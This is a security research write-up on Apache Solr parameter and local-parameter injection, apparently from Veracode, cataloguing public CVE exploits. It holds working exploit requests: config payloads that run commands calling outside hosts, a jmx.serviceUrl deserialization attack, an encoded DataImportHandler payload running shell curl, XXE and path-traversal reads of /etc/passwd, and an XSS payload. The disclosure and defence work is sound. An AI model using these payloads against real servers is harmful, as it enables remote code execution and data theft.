




# Apache Solr Injection Research
## Table of Contents
* [Introduction](#introduction)
* [Solr API quick overview](#solr-api-quick-overview)
* [Apache Solr Injection](#apache-solr-injection)
  * [Solr Parameters Injection (HTTP smuggling)](#solr-parameters-injection-http-smuggling)
    * [Exploitation examples](#exploitation-examples)
  * [Solr Local Parameters Injection](#solr-local-parameters-injection)
* [Ways to RCE](#ways-to-rce)
  * [[CVE-2017-12629] Remote Code Execution via RunExecutableListener](#1-cve-2017-12629-remote-code-execution-via-runexecutablelistener)
  * [[CVE-2019-0192] Deserialization of untrusted data via jmx.serviceUrl](#2-cve-2019-0192-deserialization-of-untrusted-data-via-jmxserviceurl)
    * [Attack via deserialization](#2a-attack-via-deserialization)
    * [Attack via direct access to JMX](#2b-attack-via-direct-access-to-jmx)
  * [[CVE-2019-0193] Remote Code Execution via dataImportHandler](#3-cve-2019-0193-remote-code-execution-via-dataimporthandler)
  * [[CVE-2012-6612, CVE-2013-6407, CVE-2013-6408] XXE in the Update Handler](#4-cve-2012-6612-cve-2013-6407-cve-2013-6408-xxe-in-the-update-handler)
  * [[CVE-2013-6397] Remote Code execution via XSLT response writer and path traversal](#5-cve-2013-6397-remote-code-execution-via-xslt-response-writer-and-path-traversal)
  * [[CVE-2017-3163] Arbitrary file read via path traversal attack in ReplicationHandler](#6-cve-2017-3163-arbitrary-file-read-via-path-traversal-attack-in-replicationhandler)
* [Black box detection](#black-box-detection)
* [Conclusion](#conclusion)

## Introduction
This research is aimed to present a new vulnerability: "Solr parameter Injection" and describe how it may be exploited in different scenarios. It also accumulates all public exploits for Apache Solr.

[Apache Solr](http://lucene.apache.org/solr/) is an open source enterprise search platform, written in Java, from the Apache Lucene project. Its major features include full-text search, hit highlighting, faceted search, dynamic clustering, and document parsing.  You may threat it like a database: you run the server, create a collection, and send different types of data to it (such as text, xml documents, pdf documents, pretty any format). Solr automatically index this data and provide a fast but rich REST API interface to search over it. The only protocol to talk to server is HTTP and yes, it's accessible without authentication by default, which makes it a perfect victim for SSRF, CSRF and HTTP Request Smuggling attacks. 

## Solr API quick overview
When you start a Solr instance (e.g. by using "./bin/solr start -e dih" command) it creates a web server on port 8983:

<p align="center"></p>
The default example comes with some data inside, so we can immediately search in it. This is a simple query that search for "Apple" keyword in all documents and returns the result in JSON format:

<p align="center"></p>

A more complex query may look like this:

<p align="center"></p>
The main parameters here are:

* **/solr/db/select** - "db" is the collection name, "/select" means we would like to perform a search operation handled by the [SearchHandler](https://github.com/apache/lucene-solr/blob/master/solr/core/src/java/org/apache/solr/handler/component/SearchHandler.java)

* **q={!dismax+df=name}Apple** - This query searches for the "name" field  containing the "Apple" keyword, using the "dismax" query parser. The data between braces is parsed as [Solr local parameters](https://lucene.apache.org/solr/guide/6_6/local-parameters-in-queries.html)

* **fl=\*,score,similar:[subquery]** - "fl" stands for field list to be returned, the [[subquery] transformer](https://lucene.apache.org/solr/guide/6_6/transforming-result-documents.html#TransformingResultDocuments-_subquery_) allows to include data from another search query to the resulted document. In our case the subquery searches for the "computer" keyword.

Apart from the search, there is a possibility to perform update operation, view and modify the config, or even perform a replication. If we have access to the Solr Web Interface, we can upload and modify any data and do almost any operation. By default, there is no users or roles, which makes it a perfect target for SSRF, CSRF and HTTP Request Smuggling attacks.

## Apache Solr Injection
Like a database, in most cases, the Solr Rest API is not directly accessible to end users and used only internally by other applications. In these cases, we would like to introduce a couple of new attack against web applications that use Solr.
### Solr Parameters Injection (HTTP smuggling)
If a target web application uses untrusted user input when making HTTP API calls to Solr, it potentially does not properly encode the data with URL Encoding.
Here is a simple java web application that accepts just one "q" parameter and performs a search operation by making a server-to-server HTTP request to Solr:

```java
@RequestMapping("/search")
@Example(uri = "/search?q=Apple")
public Object search1(@RequestParam String q) {

    //search the supplied keyword inside solr
    String solr = "http://solrserver/solr/db/";
    String query = "/select?q=" + q + "&fl=id,name&rows=10";
    return http.get(solr + query);
}
```

Since there is no URL encoding applied to this parameter, by sending payloads such as 'q=123%26param1=xxx%26param2=yyy' it is possible to inject additional HTTP query parameters to the Solr search request and change the logic how request is processed. The '%26' character here is the encoded version of the '&' character, which is a parameter delimiter in the HTTP query.<br/>
A normal request from a user to the web app:

`GET /search?q=Apple`

Leads to the following request from the web app to the Solr server:

`GET /solr/db/select?q=Apple`

A malicious request from a user to the web app:

`GET /search?q=Apple%26xxx=yyy`

Leads to the following request from the web app to the Solr server:

<p>GET /solr/db/select?q=<font color="red">Apple&xxx=yyy</font></p>

As you can see here, due to the parameter injection vulnerability, the 'q' parameter is decoded by the web app, but not properly encoded in the request to Solr server.

So, the main question is what we can do with it? Considering the request will be sent to the '/select' anyway, what parameters we can send to do something malicious on the Sorl side?

Well, Solr supports a lot of different query parameters, but for exploitation the most interesting are:

* **shards=http<span>://</span>127.0.0.1:8983/** - by specifying the shards parameter we can make the target Solr server to act as a reverse-proxy, sending this request to another or our own malicious Solr node. It allows attackers to feed arbitrary data to the Solr server, or even reach the firewall protected Admin api. <details><summary> *N.B. Restricted in 7.7.1+</summary><p>Whitelist of shards is introduced in 7.7.1, see [Distributed Requests](https://lucene.apache.org/solr/guide/7_7/distributed-requests.html). It makes OOB detection harder, but you still should be able to make requests to the local shards:)</p></details>
* **qt=/update** - allows to rewrite the handler for the request (from /select to /update or any other). Although the vulnerable application will always send the request to '/solr/db/select' it may create a false developers feeling that this request will be processed as a search request. In fact, by using 'qt' and 'shards' parameters we can reach '/update' or '/config' Solr endpoints.
* **shards.qt=/update** - also allows to rewrite the request handler
* **stream.body=xxx** - allows to rewrite the full request body. Disabled in the latest versions, but usable if we target outdated Solr.

If we can 'smuggle' these parameters to the Solr query, it could be a serious vulnerability that may lead to data modification inside the Solr instance and even RCE in some cases.

#### Exploitation examples

The exploit request to change Solr config properties may look like:

`GET /search?q=Apple&shards=http://127.0.0.1:8983/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}`

To query data from another collection

`GET /solr/db/select?q=Apple&shards=http://127.0.0.1:8983/solr/atom&qt=/update?stream.body=[%257b%2522id%2522:%25221338%2522,%2522author%2522:%2522orange%2522%257d]%26wt=json&commit=true&wt=json`

To update data in another collection:

`GET /solr/db/select?q=orange&shards=http://127.0.0.1:8983/solr/atom&qt=/select?fl=id,name:author&wt=json`

Another way to exploit this vulnerability is to alter the Solr response. The "fl" parameter lists the fields that should be returned by the query. For example, by issuing the following requests we are asking to return only 'name' and 'price' fields:

`GET /solr/db/select?q=Apple&fl=name,price`

When this parameter is tainted, we can leverage the [ValueAugmenterFactory](https://lucene.apache.org/solr/guide/6_6/transforming-result-documents.html#TransformingResultDocuments-_value_-ValueAugmenterFactory) **(fl=name:[value v='xxxx'])** to inject additional fields to the document, and specify the injected value ('xxxx') right inside the query.
Moreover, in conjunction with the Xml Transformer **(fl=name:[xml])** we can parse the provided value on the server side and include it to the result document without escaping. This technique may be used for XSS for example:

`GET /solr/db/select?indent=on&q=*&wt=xml&fl=price,name:[value+v='<a:script+xmlns:a="http://www.w3.org/1999/xhtml">alert(1)</a:script>'],name:[xml]`

<p align="center"></p>

**p.s.** no XXE here unfortunately (at least in 7.6)<br>
**p.p.s** RawValueTransformerFactory is introduced in solr 5.2+

### Solr Local Parameters Injection
The more often case when only the "q" (query) parameter comes from the untrusted input and it is properly encoded, for example:

```java
@RequestMapping("/search")
public Object select(@RequestParam(name = "q") String query) {
    //search the supplied keyword inside solr and return result|
    return httprequest(solrURL + "/db/select?q=" + urlencode(query));
}
```

In this case it is still possible to specify the parser type and [Solr local parameters](https://lucene.apache.org/solr/guide/6_6/local-parameters-in-queries.html) used by this parser, e.g.:

`GET /search?q={!type=_parser_type_+param=value}xxx`

This attack [was described back in 2013](https://javahacker.com/abusing-the-solr-local-parameters-feature-localparams-injection/), but until 2017 nobody knew how to exploit it. 
In 2017, we reported [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) and discovered a way how to trigger XXE by using 'xmlparser' parser and escalate it to the Solr parameters injection vulnerability:

`GET /search?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://127.0.0.1:/solr/gettingstarted/upload?stream.body={"xx":"yy"}&commit=true"'><a></a>'}`

In other Solr versions where [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) does not work or patched, the local parameters injection is almost harmless. Well, it could probably be used to cause DoS, but even by using lucene syntax we can make heavy queries, so DoS does not really count here. Another potential way to exploit the local parameters injection is to use Join Query Parser to access the data from another collection:

`GET /search?q={!join from=id fromIndex=anotherCollection to=other_id}Apple`

But it not always possible as another collection should contain the same IDs.
Therefore, until somebody will find a better way to exploit local parameters injection, I would not consider it as a security vulnerability given that [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) is patched.

## Ways to RCE
Since attackers normally are not interested in data stored within the cluster (it may be non-sensitive), but rather in achieving RCE or local file read. Fortunately, there is a couple of vulnerabilities allowing it:
### 1. \[CVE-2017-12629] Remote Code Execution via RunExecutableListener
**Target Solr version:** 5.5x-5.5.5, 6x-v6.6.2, 7x - v7.1<br>
**Requirements:** none

The attack leverages [Solr ConfigApi](https://lucene.apache.org/solr/guide/7_4/config-api.html) to add a new [RunExecutableListener](http://lucene.apache.org/solr/6_6_2/solr-core/org/apache/solr/core/RunExecutableListener.html) that executes a shell command. After you added this listener you need to perform an update operation using [/update handler](https://lucene.apache.org/solr/guide/6_6/uploading-data-with-index-handlers.html#UploadingDatawithIndexHandlers-AddingaSingleJSONDocument) to trigger the command execution. There is the [public exploit explained](https://www.exploit-db.com/exploits/43009), thanks [Olga Barinova](https://twitter.com/_lely___) for sharing ideas how to exploit it.

Exploit via direct connection to a Solr server:
```http request
POST /solr/db/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 213

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"nslookup",
    "dir":"/usr/bin/",
    "args":["solrx.x.artsploit.com"]
  }
}
```

Exploit via Solr Parameters Injection:

`GET /solr/db/select?q=xxx&shards=localhost:8983/solr/db/config%23&stream.body={"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"nslookup","dir":"/usr/bin/","args":["solrx.x.artsploit.com"]}}&isShard=true`

`GET /solr/db/select?q=xxx&shards=localhost:8983/solr/db/update%23&commit=true`

Exploit via Solr Local Parameters Injection:

`GET /solr/db/select?q={!xmlparser+v%3d'<!DOCTYPE+a+SYSTEM+"http%3a//localhost%3a8983/solr/db/select%3fq%3dxxx%26qt%3d/solr/db/config%3fstream.body%3d{"add-listener"%3a{"event"%3a"postCommit","name"%3a"newlistener","class"%3a"solr.RunExecutableListener","exe"%3a"nslookup","dir"%3a"/usr/bin/","args"%3a["solrx.x.artsploit.com"]}}%26shards%3dlocalhost%3a8983/"><a></a>'}`

`GET /solr/db/select?q={!xmlparser+v='<!DOCTYPE+a+SYSTEM+"http://localhost:8983/solr/db/update?commit=true"><a></a>'}`

For the next exploits we omit the payload strings for "Solr Parameter Injection" and "Solr Parameter Injection", as the logic how they created is the same (using "xmlparser" type in conjunction with "qt" and "stream.body" parameters)

### 2. \[CVE-2019-0192] Deserialization of untrusted data via jmx.serviceUrl 
**Target Solr version:** >5? (not sure when config API is introduced) - <7. In version 7 JMX is just ignored.<br>
**Requirements:** Out of band connections from Solr are not firewalled; suitable deserialization gadget exists in the target classpath OR network access to an arbitrary port of the JMX server (this will be opened on the machine where Solr is running during exploitation).

ConfigAPI allows to set 'jmx.serviceUrl' property that will create a new JMX MBeans server and register it on the specified RMI/LDAP registry.  

```http request
POST /solr/db/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 112

{
  "set-property": { 
    "jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://artsploit.com:1617/jmxrmi"
  }
}
```

Under the hood, It triggers a JNDI call with the 'bind' operation to the target RMI/LDAP/CORBA server. Unlike JNDI 'lookup' operation, remote classloading is not supported for 'bind' operations, so we cannot just return a reference with an external codebase.
At the same time, it creates a new unprotected JMX server via [JMXConnectorServer.start()](https://github.com/apache/lucene-solr/blob/master/solr/core/src/java/org/apache/solr/util/JmxUtil.java#L48):

```java
public static MBeanServer findMBeanServerForServiceUrl(String serviceUrl) throws IOException {
  if (serviceUrl == null) {
    return null;
  }

  MBeanServer server = MBeanServerFactory.newMBeanServer();
  JMXConnectorServer connector = JMXConnectorServerFactory
      .newJMXConnectorServer(new JMXServiceURL(serviceUrl), null, server);
  connector.start();

  return server;
}
```

This call ends up to `InitialDirContext.bind(serviceUrl)` and then to `sun.rmi.transport.StreamRemoteCall.executeCall()` (if RMI protocol is used), which contains the desired deserialization sink `ObjectInputStream.readObject()`

It allows to perform two types of attacks:
#### 2.a Attack via deserialization
  A malicious RMI server could respond with an arbitrary object that will be deserialized on the Solr side using java's ObjectInputStream, which is considered unsafe. The easies way to create a mock RMI server is probably to use the ['ysoserial.exploit.JRMPListener'](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java) class form the [ysoserial](https://github.com/frohoff/ysoserial) tool. 
  Depending on the target classpath, an attacker can use one of the "gadget chains" to trigger Remote Code Execution on the Solr side. One of the known gadget's applicable here is [ROME](https://github.com/artsploit/ysoserial/blob/master/src/main/java/ysoserial/payloads/ROME2.java), since Solr contains "contrib/extraction/lib/rome-1.5.1.jar" library for data extraction, but this library is optional and should be included in the Solr config. Jdk7u21 gadget chain is also worth to try to.
<details>
    <summary>
        <b>[Expand to see steps to reproduce]</b>     
    </summary>
    <p>
        <ol>
            <li>
                download and unzip solr 6.6.5<br>
                <pre>wget https://www.apache.org/dist/lucene/solr/6.6.5/solr-6.6.5.zip<br/>unzip solr-6.6.5.zip<br>cd solr-6.6.5/</pre>
            </li>
            <li>
                copy extraction dependencies as advised in contrib/extraction/README.txt
                <pre>cp -a contrib/extraction/lib/ server/lib/</pre>        
            </li>
            <li>
                start solr
                <pre>./bin/solr start -e techproducts</pre>
            </li>
            <li>
                download and compile ysoserial project into another folder (you need a modified version of ysoserial)
                <pre>git clone https://github.com/artsploit/ysoserial<br/>cd ysoserial<br/>mvn clean package -DskipTests</pre>
            </li>
            <li>
                Start a malicious RMI server serving ROME2 object payload on port 1617    
                <pre>java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1617 ROME2 "/Applications/Calculator.app/Contents/MacOS/Calculator"</pre>
            </li>
            <li>
                 Trigger a Solr connection to the malicious RMI server by setting jmx.serviceUrl property           
                 <pre>curl -X POST -H 'Content-type: application/json' -d '{"set-property":{"jmx.serviceUrl":"service:jmx:rmi:///jndi/rmi://localhost:1617/solrjmx"}}' http://localhost:8983/solr/techproducts/config</pre>
            </li>   
            <li>
                 The "/Applications/Calculator.app/Contents/MacOS/Calculator" will be executed on the Solr side. Solr will throw a "UnexpectedException", but only after the object is deserialized.<br><br>
                 * N.B. these steps tested on solr 6.6.5, MacOS, java8u192
            </li>             
        </ol>
    </p>
</details>

#### 2.b Attack via direct access to JMX
 Another way to exploit this vulnerability is to set up an innocent RMI registry (e.g. by using 'rmiregistry' from JDK) and let Solr to register JMX on it. During this, the target SOLR application creates a JMX MBeans server on a random port and reveals this port to the attacker's RMI Registry.
 
 If this port is not firewalled, an attacker can deploy a malicious MBean via [java_jmx_server metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/java_jmx_server.rb) or by using [mjet](https://github.com/mogwailabs/mjet). It happens due to the JMX Mbeans server is created without any authentication.

<details>
    <summary>
        <b>[Expand to see steps to reproduce]</b>     
    </summary>
    <p>
        <ol>
            <li>
                start solr
                <pre>./bin/solr start -e techproducts</pre>
            </li>
            <li>
                Create an innocent rmiregistry<br>
                <pre>rmiregistry 1617</pre>
            </li>
            <li>
                Trigger a Solr connection to the malicious RMI server by setting jmx.serviceUrl property           
                <pre>curl -X POST -H 'Content-type: application/json' -d '{"set-property":{"jmx.serviceUrl":"service:jmx:rmi:///jndi/rmi://localhost:1617/jmxrmi"}}' http://localhost:8983/solr/techproducts/config</pre>
            </li>
            <li>
                Identify Solr JMX port from the local registry    
                <pre>nmap -A -v 127.0.0.1 -p 1617 --version-all</pre>
                
            </li>   
            <li>
                Use mjet tool to deploy a malicious mbean   
                <pre>jython mjet.py 127.0.0.1 1617 install pass http://127.0.0.1:8000 8000</pre>
                
            </li>      
        </ol>
    </p>
</details>

### 3. \[CVE-2019-0193] Remote Code Execution via dataImportHandler
**Target Solr version**: 1.3 – 8.2<br>
**Requirements:** DataImportHandler should be enabled, which is not by default

Solr has an optional [DataImportHandler](https://cwiki.apache.org/confluence/display/solr/DataImportHandler) that is useful to import data from databases or URLs,  It is possible to include arbitrary JavaScript code inside the script tag of dataConfig parameter that will be executed on the Solr server for each imported document. 

Exploit via direct connection to the Solr server:

<p align="center">

<details align="center">
    <summary>
        <b>[Expand to see the properly encoded request]</b>     
    </summary>
    <p align="left">
        <code>GET /solr/db/dataimport?command=full-import&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0d%0a%20%20%3c%64%61%74%61%53%6f%75%72%63%65%20%74%79%70%65%3d%22%55%52%4c%44%61%74%61%53%6f%75%72%63%65%22%2f%3e%0d%0a%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%66%75%6e%63%74%69%6f%6e%20%66%31%28%64%61%74%61%29%7b%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%5b%22%28%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%5b%5d%29%22%5d%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%63%22%2c%22%63%75%72%6c%20%31%32%37%2e%30%2e%30%2e%31%3a%38%39%38%34%2f%78%78%78%22%5d%29%2e%73%74%61%72%74%28%29%7d%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0d%0a%20%20%3c%64%6f%63%75%6d%65%6e%74%3e%0d%0a%20%20%20%20%3c%65%6e%74%69%74%79%20%6e%61%6d%65%3d%22%78%78%22%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%75%72%6c%3d%22%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%3a%38%39%38%33%2f%73%6f%6c%72%2f%61%64%6d%69%6e%2f%69%6e%66%6f%2f%73%79%73%74%65%6d%22%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%72%65%73%70%6f%6e%73%65%22%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%48%54%4d%4c%53%74%72%69%70%54%72%61%6e%73%66%6f%72%6d%65%72%2c%52%65%67%65%78%54%72%61%6e%73%66%6f%72%6d%65%72%2c%73%63%72%69%70%74%3a%66%31%22%3e%0d%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0d%0a%20%20%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0d%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e</code>
    </p>
</details>
</p>

When you test it, make sure the url specified in the '<entity>' section is accessible from the Solr side and returns a valid XML document for Xpath evaluation.

Another way to exploit [DataImportHandler](https://cwiki.apache.org/confluence/display/solr/DataImportHandler) is to use dataSource type "JdbcDataSource" along with the driver "com.sun.rowset.JdbcRowSetImpl":

<p align="center">

<details align="center">
    <summary>
        <b>[Expand to see the properly encoded request]</b>     
    </summary>
    <p align="left">
        <code>GET /solr/db/dataimport?command=full-import&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0d%0a%20%20%3c%64%61%74%61%53%6f%75%72%63%65%20%74%79%70%65%3d%22%4a%64%62%63%44%61%74%61%53%6f%75%72%63%65%22%20%64%72%69%76%65%72%3d%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%20%6a%6e%64%69%4e%61%6d%65%3d%22%72%6d%69%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%3a%36%30%36%30%2f%78%78%78%22%20%61%75%74%6f%43%6f%6d%6d%69%74%3d%22%74%72%75%65%22%2f%3e%0d%0a%20%20%3c%64%6f%63%75%6d%65%6e%74%3e%0d%0a%20%20%20%20%3c%65%6e%74%69%74%79%20%6e%61%6d%65%3d%22%78%78%22%3e%0d%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0d%0a%20%20%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0d%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e</code>
    </p>
</details>
</p>

See our [Exploiting JNDI Injections](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) article for more information about JNDI attacks. Solr is based on Jetty, hence the Tomcat trick is not applicable here, but you can rely on remote classloading which was fixed for LDAP just quite recently. 

### 4. \[CVE-2012-6612, CVE-2013-6407, CVE-2013-6408] XXE in the Update Handler
**Target Solr version**: 1.3 - 4.1 or 4.3.1
Requirements: none

If you have a very old version of Solr, it could also be affected by a trivial XXE in the update handler:
```http
POST /solr/db/update HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/xml
Content-Length: 136

<!DOCTYPE x [<!ENTITY xx SYSTEM "/etc/passwd">]>
<add>
  <doc>
    <field name="id">&xx;</field>
  </doc>
  <doc>
  </doc>
</add>
```

### 5. \[CVE-2013-6397] Remote Code execution via XSLT response writer and path traversal
**Target Solr version**: 1.3 - 4.1 or 4.3.1
Requirements: ability to upload an XLS file to any directory
There is a path traversal vulnerability found by [Nicolas Grégoire](https://twitter.com/Agarri_FR) in 2013, he also wrote [a good blogpost](https://www.agarri.fr/blog/archives/2013/11/27/compromising_an_unreachable_solr_server_with_cve-2013-6397/index.html) about it:

`GET /solr/db/select/?q=31337&wt=xslt&tr=../../../../../../../../../../../../../../../../../usr/share/ant/etc/ant-update.xsl`

It could lead to a remote code execution if an attacked has ability to upload a custom XSL file using the above-mentioned XXE or another vulnerability.

### 6. \[CVE-2017-3163] Arbitrary file read via path traversal attack in ReplicationHandler
**Target Solr version**: <5.5.4 and <6.4.1
Requirements: none

`GET /solr/db/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1`

There is also an unfixed SSRF here, but with the existence of "shards" feature it's hardly considered as a vulnerability:

`GET /solr/db/replication?command=fetchindex&masterUrl=http://callback/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb`

## Black box detection
Considering the attacks explained above, whenever a bug hunter discovers a search form on the website that looks like a full text search, it is worth to send the following OOB payloads to detect the presence of this vulnerability:

```http request
GET /xxx?q=aaa%26shards=http://callback_server/solr 
GET /xxx?q=aaa&shards=http://callback_server/solr
GET /xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://callback_server/solr'><a></a>"}
```

## Conclusion
No matter whether the Solr instance is facing the internet, behind the reverse proxy, or used only by internal web applications, allowing to modify Solr search parameters is a significant security risk.
In cases where only a web application who uses Solr is accessible, by exploitation **Solr (local) Parameter Injection** it is possible to at least modify or view all the data within the Solr cluster, or even exploit known vulnerabilities to achieve remote code execution.

### Special Thanks
[Nicolas Grégoire](https://twitter.com/Agarri_FR) - for the wonderful CVE-2013-6397<br>
[Olga Barinova](https://twitter.com/_lely___) - for the incredible idea how to exploit CVE-2017-12629<br>
Apache Solr Team - for timely fixing all of these vulnerabilities

### Authors
[Michael Stepankin](https://twitter.com/artsploit), Veracode Research